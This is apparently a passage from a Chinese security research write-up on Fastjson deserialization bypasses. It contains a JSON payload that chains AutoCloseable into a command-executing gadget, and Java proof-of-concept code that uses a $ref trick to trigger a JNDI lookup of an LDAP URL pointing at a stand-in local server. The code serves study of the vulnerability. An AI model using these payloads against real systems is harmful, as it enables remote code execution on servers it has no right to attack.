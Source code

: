 

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecRunnable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalRunnable","cmd":"calc"}
}
```

Readable同理。

拓展使用$ref拓展攻击面，使用parse()解析的也能触发任意getter。这个payload来自 [@threedr3am](https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6)

```java
package org.chabug.fastjson.exploit;

import com.alibaba.fastjson.JSON;
import org.apache.shiro.jndi.JndiLocator;
import org.apache.shiro.util.Factory;

import javax.naming.NamingException;

public class RefAnyGetterInvoke<T> extends JndiLocator implements Factory<T>, AutoCloseable {
    private String resourceName;

    public RefAnyGetterInvoke() {
    }

    public static void main(String[] args) {
        String json = "{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.chabug.fastjson.exploit.RefAnyGetterInvoke\",\n" +
                "  \"resourceName\": \"ldap://localhost:1389/Calc\",\n" +
                "  \"instance\": {\n" +
                "    \"$ref\": \"$.instance\"\n" +
                "  }\n" +
                "}";
        System.out.println(json);
        JSON.parse(json);   // 默认不会调用getter 使用$ref就可以调用到getInstance()
//        JSON.parseObject(json); // parseObject默认就会调用getter getInstance()
    }

    public T getInstance() {
        System.out.println(getClass().getName() + ".getInstance() invoke.");
        try {
            return (T) this.lookup(this.resourceName);
        } catch (NamingException var3) {
            throw new IllegalStateException("Unable to look up with jndi name '" + this.resourceName + "'.", var3);
        }
    }

    public String getResourceName() {
        System.out.println(getClass().getName() + ".getResourceName() invoke.");
        return this.resourceName;
    }

    public void setResourceName(String resourceName) {
        System.out.println(getClass().getName() + ".setResourceName() invoke.");
        this.resourceName = resourceName;
    }

    @Override
    public void close() throws Exception {
```